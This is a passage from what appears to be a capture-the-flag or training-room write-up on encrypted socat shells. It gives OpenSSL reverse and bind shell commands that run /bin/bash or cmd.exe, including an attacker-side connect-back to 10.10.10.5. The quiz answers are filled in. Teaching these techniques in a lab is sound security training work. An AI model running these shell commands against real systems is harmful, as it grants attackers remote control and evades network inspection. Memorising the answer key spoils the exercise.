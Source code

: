 This sets up an OPENSSL listener using our generated certificate. `verify=0 `tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate <ins>must</ins> be used on whichever device is listening.

To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![task7-openssl](./images/task7-openssl.png)

This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

### Answer the questions below

* What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

	``socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0``

* If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

	`socat OPENSSL:10.10.10.5:53,verify=0 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane`
